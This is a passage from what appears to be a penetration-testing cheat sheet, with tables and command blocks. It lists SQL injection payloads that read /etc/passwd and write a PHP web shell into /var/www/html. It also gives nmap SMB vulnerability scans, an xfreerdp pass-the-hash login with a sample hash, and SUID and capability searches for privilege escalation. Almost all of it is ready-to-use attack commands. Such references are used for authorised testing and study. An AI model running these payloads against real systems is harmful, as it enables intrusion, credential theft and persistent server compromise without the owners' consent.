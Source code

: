 | **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

# Windows
----------------------------------------------------------------------------------------------------------
## Basic enumeration on linux and windows
| **Linux**  | **Windows** | **Purpose of command** |
|------------|-------------|------------------------|
|`whoami`|`whoami`|Name of current user
| `uname -a`|`ver`|Operating system
|`ifconfig`|`ipconfig /all`|Network configuration
|`netstat -an`|`netstat -an`|Network connections
|`ps -ef`|`tasklist`|Running processes


## Windows SMB enumeration
* nmap - SMB Vulnerabilities on Windows
```
nmap -p 445 --script smb-vuln-ms06-025 target-IP
nmap -p 445 --script smb-vuln-ms07-029 target-IP
nmap -p 445 --script smb-vuln-ms08-067 target-IP
nmap -p 445 --script smb-vuln-ms10-054 target-IP
nmap -p 445 --script smb-vuln-ms10-061 target-IP
nmap -p 445 --script smb-vuln-ms17-010 target-IP
```

## xfreerdp
* login with the user hash
```
xfreerdp /u:user /d:domain /pth:011AD41795657A8ED80AB3FF6F078D03 /v:10.5.23.42
```

* login with the user password
```
xfreerdp /u:user /d:domain /p:password /v:10.5.23.42
```
-----------------------------------------------------------------------------------------------------------
# Useful find commands example

`find SUID files`
```
find / -user root -perm /4000 2>/dev/null
```
```
find / -user root -perm -4000 -exec ls -ldb {}; > /tmp/suid
```
```
find / -type f -name '*.txt' 2>/dev/null
```
```
find / -perm -u=s -type f 2>/dev/null
```
```
getcap -r / 2>/dev/null
```